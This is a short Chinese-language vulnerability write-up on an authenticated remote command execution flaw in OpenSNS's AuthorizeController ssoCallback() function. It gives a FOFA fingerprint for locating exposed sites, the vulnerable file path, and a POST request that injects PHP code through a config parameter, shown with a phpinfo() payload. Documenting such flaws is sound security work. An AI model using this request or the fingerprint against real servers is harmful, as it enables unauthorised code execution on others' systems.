 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235551772.png)

存在漏洞的文件为 **Application/Admin/Controller/AuthorizeController.class.php**

![img](../../../.vuepress/public/img/1634375559893-600bdee5-03fe-4da2-8762-c41ded4f3797.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![img](../../../.vuepress/public/img/1634376077943-1f4ae612-7dc6-44a8-963d-0235ce16d1fd.png)

构造请求包

```php
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![img](../../../.vuepress/public/img/1634376114084-4e3cf1c1-1a1b-4169-bf65-322e2002a947.png)

